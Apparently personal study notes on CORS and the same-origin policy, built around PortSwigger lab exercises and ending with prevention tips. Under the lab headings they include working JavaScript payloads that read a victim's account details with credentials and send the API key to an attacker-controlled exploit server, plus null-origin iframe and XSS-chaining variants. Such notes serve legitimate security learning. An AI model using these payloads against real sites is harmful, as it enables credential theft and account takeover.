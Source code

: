 
- CORS relaxes the **same-origin policy (SOP)**. Misconfigured CORS policies lead to information leaks, authentication bypass and account takeover.

#### Same-Origin Policy

- The same-origin policy is a restrictive cross-origin specification that limits the ability for a website to interact with resources outside of the source domain.
- It generally allows a domain to issue requests to other domains, but not to access the responses.
- Cross-origin loading of page resources is generally permitted. For example, the SOP allows embedding of images via the `<img>` tag, media via the `<video>` tag and JavaScript via the `<script>` tag. However, while these external resources can be loaded by the page, any JavaScript on the page won't be able to read the contents of these resources.
- Cookies are often accessible from all subdomains of a site even though each subdomain is technically a different origin. You can partially mitigate this risk using the `HttpOnly` cookie flag.

![[Schermata del 2024-11-19 14-57-24.png]]

- A script from page A can access data from page B only if the pages are on the same origin.
- SOP protects cookies (like session cookies).

## How does CORS work?

- The cross-origin resource sharing protocol uses a suite of HTTP headers that define trusted web origins and associated properties such as whether authenticated access is permitted.
- The `Access-Control-Allow-Origin` header is included in the response from one website to a request originated from another website and identifies the permitted origin of the request. A web browser compares the Access-Control-Allow-Origin with the requesting website's origin and permits access to the response if they match.
- Usually when we send a request from a website `normal-website.com` to another domain `robust-website.com` the browser puts in the request the following header to make the server know what's the *origin* of the request:

```http
Origin: https://normal-website.com
```

The request would be like this:

```http
GET /data HTTP/1.1
Host: robust-website.com 
Origin: https://normal-website.com
```

If `robust-website.com` uses SOP, then its response is dropped when arrives at the web browser.
If instead it uses CORS, the server on `robust-website.com` returns the following response:

```http
HTTP/1.1 200 OK
...
Access-Control-Allow-Origin: https://normal-website.com
```

The browser will allow code running on `normal-website.com` to access the response because the origins match.

The specification of `Access-Control-Allow-Origin` allows for multiple origins, or the value `null`, or the wildcard `*`.

- The default behavior of cross-origin resource requests is for requests to be passed without credentials like cookies and the Authorization header. However, the cross-domain server can permit reading of the response when credentials are passed to it by setting the CORS `Access-Control-Allow-Credentials` header to true.

###### Request
```http
GET /data HTTP/1.1 
Host: robust-website.com 
... 
Origin: https://normal-website.com 
Cookie: JSESSIONID=<value>
```
###### Response
```http
HTTP/1.1 200 OK 
... 
Access-Control-Allow-Origin: https://normal-website.com 
Access-Control-Allow-Credentials: true
```

## Vulnerabilities and common mistakes

###### Lab: CORS vulnerability with basic origin reflection 

```html
<script>  
fetch('https://0afa00b803fd481c83315b74001800f2.web-security-academy.net/accountDetails', {credentials:'include'})  
.then(r => r.json())  
.then(j => j.apikey)  
.then(key => new Image().src = 'https://exploit-0a8400fa03dc48d983915a59015a001f.exploit-server.net/landing?key=' + key)  
</script>
```

or: 
```html
<script>
var req = new XMLHttpRequest();
req.onload = reqListener;
req.open('get','https://vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; 
req.send();

function reqListener() { 
	location='//malicious-website.com/log?key='+this.responseText; 
};
</script>
```

#### Whitelisted null origin value

The Origin header supports the value `null`. Browsers might send the value `null` in the Origin header in various unusual situations:

- Cross-origin redirects.
- Requests from serialized data.
- Request using the `file:` protocol.
- Sandboxed cross-origin requests.

Some applications might whitelist the `null` origin to support local development of the application. 
In this situation, an attacker can use various tricks to generate a cross-origin request containing the value `null` in the Origin header. This will satisfy the whitelist, leading to cross-domain access.

##### Lab: CORS vulnerability with trusted null origin

```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html,
<script> 
var req = new XMLHttpRequest(); 
req.onload = reqListener; 
req.open('get','vulnerable-website.com/sensitive-victim-data',true); req.withCredentials = true; req.send(); 
function reqListener() { 
location='malicious-website.com/log?key='+this.responseText; 
}; 
</script>"></iframe>
```

or:

```html
<iframe sandbox='allow-scripts' srcdoc="  
<script>  
fetch('https://0a410099045171e580469e84007f0045.web-security-academy.net/accountDetails', {credentials:'include'})  
.then(r => r.json())  
.then(j => j.apikey)  
.then(key => new Image().src = 'https://exploit-0a6f009f04b871d680409dd001e90071.exploit-server.net/landing?key=' + key)  
</script>  
"></iframe>
```

#### Exploiting XSS via CORS trust relationships

If a website trusts an origin that is vulnerable to cross-site scripting ([[XSS (Cross-Site Scripting)]]), then an attacker could exploit the XSS to inject some JavaScript that uses CORS to retrieve sensitive information from the site that trusts the vulnerable application.

#### Breaking TLS with poorly configured CORS

Suppose an application that rigorously employs HTTPS also whitelists a trusted subdomain that is using plain HTTP.
In this situation, an attacker who is in a position to intercept a victim user's traffic (*man-in-the-middle attack*) can exploit the CORS configuration to compromise the victim's interaction with the application.

##### Lab: CORS vulnerability with trusted insecure protocols

```html
<script>  
location = 'http://stock.0aff008c0471a03181e3434c00ad00c8.web-security-academy.net/?storeId=1&productId=<script>' +  
`fetch('https://0aff008c0471a03181e3434c00ad00c8.web-security-academy.net/accountDetails', {credentials:'include'}).then(r => r.json()).then(j => j.apikey).then(key => new Image().src = 'https://exploit-0abc00170467a065818e42b2012e0081.exploit-server.net/landing?key=' %2B key)` +  // don't forget to URLEncode the + (otherwise, it is a space)  
'<' + '/script>'  // or encode the < as %3C  
</script>
```

Here, we've found a HTTP subdomain `http://stock.0aff008c0471a03181e3434c00ad00c8.web-security-academy.net/?storeId=1&productId=1` where `productId` suffers of XSS and the main domain `https://0aff008c0471a03181e3434c00ad00c8.web-security-academy.net/` CORS configuration accepts requests from the vulnerable stock subdomain. Hence, we can inject code (XSS) that forces the victim to make a request from the stock subdomain to the main domain, making the victim unconsciously sending us the apiKey.

## Prevention

- Specify the Access-Control-Allow-Origin header if the response contains sensitive data
- Think if you really need `Access-Control-Allow-Origin: *`
- Double think if you really need `Access-Control-Allow-Credentials: true`
- Use allow lists
- Don’t allow the origin null